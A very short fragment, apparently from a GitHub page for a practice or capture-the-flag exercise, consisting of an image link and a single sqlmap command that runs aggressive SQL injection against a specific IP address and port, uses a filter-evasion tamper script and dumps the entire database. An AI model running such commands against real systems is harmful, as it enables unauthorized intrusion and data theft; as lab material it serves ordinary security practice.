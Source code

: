 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc9c4810-ef5b-4986-9878-d959e54f6324)

sqlmap -u "http://62.173.140.174:18600/?id=" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all
